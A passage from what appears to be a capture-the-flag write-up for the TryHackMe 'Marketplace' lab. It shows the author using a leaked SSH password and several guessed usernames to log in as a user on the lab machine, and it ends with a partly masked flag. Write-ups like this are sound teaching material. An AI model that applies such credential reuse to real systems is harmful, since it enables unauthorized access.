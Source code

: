 ```html
,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
,Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee&#39;s browsers.
```
Here we got a potential SSH password `@b_ENXkGYUCAv3zJ`.

Now that we got a bunch of username and a potential SSH password lets try and SSH into the box.

Users
```
system
michael
jake
```
Password
```
@b_ENXkGYUCAv3zJ
```
As there were only 3 usernames, I tried them manually instead using hydra and got in the box as user Jake.

### Shell as Jake
```console
local@local:~/Documents/tryhackme/marketplace$ ssh jake@10.10.38.49
The authenticity of host '10.10.38.49 (10.10.38.49)' can't be established.
ECDSA key fingerprint is SHA256:nRz0NCvN/WNh5cE3/dccxy42AXrwcJInG2n8nBWtNtg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.49' (ECDSA) to the list of known hosts.
jake@10.10.38.49's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 18 17:26:02 UTC 2020

  System load:  0.0                Users logged in:                0
  Usage of /:   87.1% of 14.70GB   IP address for eth0:            10.10.38.49
  Memory usage: 31%                IP address for docker0:         172.17.0.1
  Swap usage:   0%                 IP address for br-636b40a4e2d6: 172.18.0.1
  Processes:    102

  => / is using 87.1% of 14.70GB


20 packages can be updated.
0 updates are security updates.


jake@the-marketplace:~$ 
```
### Reading 2nd flag
```console
jake@the-marketplace:~$ cat user.txt 
THM{c3648************************c0b4}
```
